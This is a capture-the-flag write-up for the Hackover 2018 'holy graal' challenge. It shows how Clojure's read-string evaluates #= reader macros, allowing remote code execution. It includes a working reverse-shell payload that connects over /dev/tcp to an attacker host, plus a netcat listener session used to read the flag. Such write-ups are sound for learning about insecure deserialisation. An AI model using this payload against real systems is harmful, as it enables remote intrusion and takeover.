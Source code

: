 ```yaml
---
layout: post
title: ctf 0x02 / holy graal [PWN]
category: ctf
tags: [ctf, writeup, clojure, shellraisers, hackover18, pwn, shell, interactive]
---
```

## Shellraisers and the Holy Graal


> Everybody keeps talking about this new JIT. I think it is more secure, wouldn't you agree?
>   
> compiled with: native-image -H:+ReportUnsupportedElementsAtRuntime

We get the [main.clj](/files/ctf_0x02/main.clj) file, which is a Clojure script! Oh boy, that's another language I had nothing to do with (and neither had anyone from our team as far as I know). That does, however, explain the challenge title! "holy graal", since it's probably running on the [Graal VM](https://www.graalvm.org/). Okay, but back to the topic.

<!--more-->

Other than the script, we get access to a host that exposes something like an interactive shell:


```
Welcome to HolyGraal version 1.0.0-rc1
Everybody knows that keeping track of brackets is hard in LISP languages.
We now introduce: verify brackets as a service.
1: Send string
2: Exit
1
()
Good job, you know how to balance brackets. Now go, get the flag.
1: Send string
2: Exit
1
((())
You need to work on your balancing skills.
1: Send string
2: Exit
```

Hm... since it's a Lisp-like language, how is the bracket balance actually verified? Let's take a look at the code:

```clojure
(defmulti option identity)
(defmethod option "1" [_]
  (try
    (-> (read-line)
        (read-string))
    (println "Good job, you know how to balance brackets. Now go, get the flag.")
    (catch Exception e
      (println "You need to work on your balancing skills."))))
```

Okay, sooo... that reads a line and then... wait, what the hell is `read-string`? Let's check the docs:

> Reads one object from the string s. Optionally include reader
options, as specified in read.

Hey, that's pretty cool! You know what's even *more* cool? The next line:

>  Note that read-string can execute code (controlled by *read-eval*),
and as such should be used only with trusted sources.

Now we're talking! I've actually done a decent amount of information digging (also known as Google searching), that resulted in me findings [this discussion](https://groups.google.com/forum/#!topic/clojure/YBkUaIaRaow/discussion). It shows a simple PoC for an RCE payload via `read-string`:

```clojure
user=> (read-string "#=(clojure.java.shell/sh \"echo\" \"hi\")") 
{:exit 0, :out "hi\n", :err ""}
```

We don't get our output back in the challenge, but this isn't exactly a problem, is it? At this point I grabbed a couple of revshell ideas I had from [ub3rsec's cheatsheet](https://ub3rsec.github.io/pages/rev-shell-cheatsheet.html) and from [pentest monkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) for Java (as Clojure is JVM-based) and mixed them with the PoC above to get this:

```clojure
#=(clojure.java.shell/sh "/bin/bash" "-c" "exec 5<>/dev/tcp/attackerip/attackerport;cat <&5 | while read line; do $line 2>&5 >&5; done")
```

Then I just ran the listener on my box, dropped the payload and waited for the session to call home. After it connected I read the `flag.txt` file and got the flag:

```
$ nc -nlvp 31337
Listening on [0.0.0.0] (family 0, port 31337)
Connection from [188.166.163.88] port 31337 [tcp/*] accepted (family 2, sport 41364)
ls
flag.txt
holy_graal-1.3.3.7-standalone
cat flag.txt
hackover18{n3v3r_tru5s7_u53r_1npu7}
```

**Flag:** `hackover18{n3v3r_tru5s7_u53r_1npu7}`

Can't deny, I enjoyed that one ;-)

Cheers!
